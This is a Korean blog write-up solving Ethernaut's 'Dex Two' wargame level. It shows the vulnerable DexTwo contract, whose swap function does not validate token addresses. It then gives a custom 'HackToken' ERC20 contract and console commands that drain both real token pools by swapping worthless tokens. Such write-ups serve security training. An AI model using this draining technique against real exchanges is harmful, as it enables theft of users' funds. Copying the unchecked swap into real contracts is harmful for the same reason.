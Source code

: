 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 23) Dex Two
date: '2022-02-11 19:48:00'
author: 한성원
tags: ethernaut DexTwo vulnerability 23
categories: 취약점분석
---
```



# 👋 1. Dex Two
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- DexTwo Contract의 Token 1과 Token 2의 balance를 전부 소진하기


- - -
## 들어가기 전
22. Dex contract와 마찬가지고 DexTwo contact도 DEX와 ERC20에 대한 지식이 있어야 한다.
Uniswap의 코드를 전부 분석하지는 못하더라도 작동원리에 대해서는 알아야한다.
또한 ERC20 standard에 어떤 function이 필요한지, 어떻게 작동하는지 공부해야한다.
아래 링크들을 통해 충분히 익숙해 진 후 풀기를 권장한다. 링크 이외에 Youtube에도 좋은 자료들이 많다!
- [Uniswap](https://docs.uniswap.org/protocol/V2/introduction)
- [openzeppelin ERC20 contract](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)

## 코드 분석
분석은 주석에 있습니다!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
    using SafeMath for uint;
    address public token1;
    address public token2;
    constructor(address _token1, address _token2) public {
        token1 = _token1;
        token2 = _token2;
    }

    function swap(address from, address to, uint amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint swap_amount = get_swap_amount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swap_amount);
        IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
    }

    function add_liquidity(address token_address, uint amount) public{
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function get_swap_amount(address from, address to, uint amount) public view returns(uint){
        return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
        SwappableTokenTwo(token1).approve(spender, amount);
        SwappableTokenTwo(token2).approve(spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint){
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
    }
}
```

<br/>
Dex contract와 DexTwo contract의 다른 점은 DexTwo는 swap()에서 token 1과 token 2를 확인하지 않는다.
즉 어느 token이라도 swap 될 수 있다.
```solidity
// 이 require 문에 제외되었다.
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```


- - -

## 풀이
이번 문제에서 우리는 Dex가 가진 모든 토큰을 소모하면 된다. 22번 Dex 문제를 잘 이해하고 있어야 풀 수 있다.
그렇다면 어떻게 소모할 수 있을까? 힌트를 보자
- 스왑 방법은 어떻게 수정되었는가? How has the swap method been modified?
- 공격할때에 커스텀 토큰 contract를 사용할 수 있는가? Could you use a custom token contract in your attack?


코드분석 아래에 보면 Dex contract와 DexTwo contract가 어떻게 수정되었는지 알 수 있다.
Dex contract와 다르게 더 이상 Token address를 검증하지 않는다.

그렇다면 우리가 만든 Custom Token으로도 swap이 가능하지 않을까?

Custom Token을 사용한 attack 시나리오를 보자.
1. ERC20 standard를 사용하는 Custom Token을 Deploy한다.
2. Deploy한 Token을 DexTwo contract가 사용할 수 있도록 approve해준다.
3. approve된 개수 중 100개만 liquidity에 add해준다(add_liquidity function 사용).
4. Token 1을 1대1 비율로 swap한다(100개 주고 100개 받고).
5. 이후 Dex contract는 200개의 Custom Token을 가지게 된다(Token 1:0개, Token 2: 100개, Custom Token: 200개). 
6. Token 2를 2대1 비율로 swap해준다(Custom Token 200개 주고, Token 2 100개 받기).
7. Dex contract가 가진 Token 1과 2의 balance를 보면 0이된 것을 확인 할 수 있다.

<br/>

Token 교환 비율은 아래와 같은 공식을 사용해 결정된다.
`(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))`
22번 문제를 잘 이해하고 풀었다면 위에 1대1, 2대1 비율이 무슨말인지 알 것이라고 생각한다.

<br/>

그렇다면 Attack에 사용할 contract를 보자.
ERC20 Standard를 이해하고 있어야만 한다!
```solidity
import "@openzeppelin/contracts@3.4.1/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts@3.4.1/token/ERC20/ERC20.sol";

contract HackToken is ERC20 {
    //새로운 Token을 발행하고 나에서 mint한다.
    constructor () public ERC20("HackToken", "HAC") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }

}
```
<br/>

위 HackToken을 Remix를 사용해 contract를 deploy한다.
발행한 Token은 metamask에서도 확인할 수 있다.
![hackToken](./hacktoken.png)
import tokens에 들어가 HackToken의 주소를 입력하면 위와같이 HackToken의 심불인 HAC를 확인 할 수 있다.

<br/>

Token 발행이 끝났다면 liquidity에 add할 수 있도록 DexTwo를 `approve` 해주어야한다.
Remix에서 Deploy된 contract에서 `approve`에 인자를 넣고 실행시킨다. 그때 `spender`은 DexTwo의 주소이고 `amount`는 앞으로 `approve`를 더하지 않을 수 있도록 `1000`을 입력 후 transaction을 보낸다.

이제 Ethernauts로 돌아와 console창과 상호작용한다.
ctrl + shift + i를 눌러 console창을 활성화 시키자
```js
// DexTwo가 내 token 1과 2를 transferFrom 할 수 있도록 approve 해준다.
await contract.approve(instance, "1000000000000000000000")
// liquidity에 hacking token 100개를 add 해준다.
await contract.add_liquidity("hacking contract address",100)
// hack token 100개를 token 1 100개와 swap 해준다.
await contract.swap("hacking contract address","Token 1 address", 100)
// 이제 liquidity pool에 ㅔHAC token이 200개 있음으로 200개를 swap 해준다.
await contract.swap("hacking contract address","Token 2 address", 200)
// Dex의 Token1과 2의 balance가 0이 된 것을 확인한다.
await contract.balanceOf(await contract.token1(), instance).then(x=> x.toString())
await contract.balanceOf(await contract.token2(), instance).then(x=> x.toString())
```


token1과 2, 모두가 balance가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이번 문제는 22. Dex 문제에서 바뀐 부분이 명확해서 취약점을 쉽게 찾을 수 있었다. 22번과 23번을 풀면서 약간이남아 swap에 대해 깨달은 것 같다. 또한 이 문제에서는 ERC20 Token이라고해서 모두 신뢰할 수 있는 것은 아니라는 교훈을 주는 것 같다. 이제 얼마 남지 않은 문제들도 열심히 풀어서 초보자 티를 벗어보자 :)


- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org

```toc

```